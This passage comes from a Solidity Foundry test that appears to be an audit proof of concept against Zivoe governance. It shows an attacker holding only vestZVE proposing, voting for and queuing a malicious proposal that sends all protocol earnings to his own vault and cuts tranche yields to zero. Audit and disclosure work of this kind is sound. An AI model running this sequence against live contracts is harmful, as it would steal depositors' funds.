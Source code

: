 ```solidity
        recipients[0] = poeVault;
        uint256[] memory proportions = new uint256[](1);
        proportions[0] = 10_000;

        calldatas[0] = abi.encodeWithSignature(
            // Update protocol earnings recipient as Poe's vault only
            "updateRecipients(address[],uint256[],bool)",
            recipients, proportions, true
        );
        calldatas[1] = abi.encodeWithSignature(
            // Update protocol earnings rate as 90%
            "updateProtocolEarningsRateBIPS(uint256)",
            9000
        );
        calldatas[2] = abi.encodeWithSignature(
            // Update residual earnings recipient as Poe's vault only
            "updateRecipients(address[],uint256[],bool)",
            recipients, proportions, false
        );
        calldatas[3] = abi.encodeWithSignature(
            // Don't give any money to tranches, Poe's vault will take it all
            "updateTargetAPYBIPS(uint256)",
            0
        );
        string memory description = "I will distribute money myself to anyone that votes for me";

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 7. Poe shouldn't even be allowed to propose this because he doesn't hold any ZVE,
        // but since _getVotes includes the balance of vestZVE, he can.
        // he proposes a malicious proposal.
        assertEq(ERC20(ZVE).balanceOf(address(poe)), 0);
        hevm.startPrank(address(poe));
        (uint256 proposalId) = GOV.propose(targets, values, calldatas, description);
        hevm.stopPrank();

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 8. Poe waits for one block, which is the initial voting delay set by the protocol
        hevm.roll(block.number + GOV.votingDelay() + 1);
        assertEq(uint(GOV.state(proposalId)), 1);  // "1" = Enum for Proposal.Active

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 9. Poe uses his vestZVE to vote for the proposal
        hevm.startPrank(address(poe));
        GOV.castVote(proposalId, uint8(1)); // 0 = Against, 1 = For, 2 = Abstain
        hevm.stopPrank();

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 10. Poe waits for the proposal deadline, which is 3600 blocks away.
        // Given the average of Ethereum, which is 12 seconds, it will take about:
        // 3600 * 12 = 43200 seconds = 12 hours for Poe to pray and wait for the proposal to pass
        // while Zivoe team doesn't notice it hopefully.
        hevm.roll(block.number + GOV.proposalDeadline(proposalId) + 1);

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 11. Proposal is now passed, Poe can queue it.
        assertEq(uint(GOV.state(proposalId)), 4);  // "4" = Enum for Proposal.Succeeded
        GOV.queue(targets, values, calldatas, keccak256(bytes(description)));

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 12. Unfortunately due to timelock, Poe needs to wait 12 hours more 
        // (timelock contracts's initial min delay as per deploy code).
        // Hopefully Zivoe team is having a weekend off.
        hevm.warp(block.timestamp + TLC.getMinDelay() + 1 seconds);
```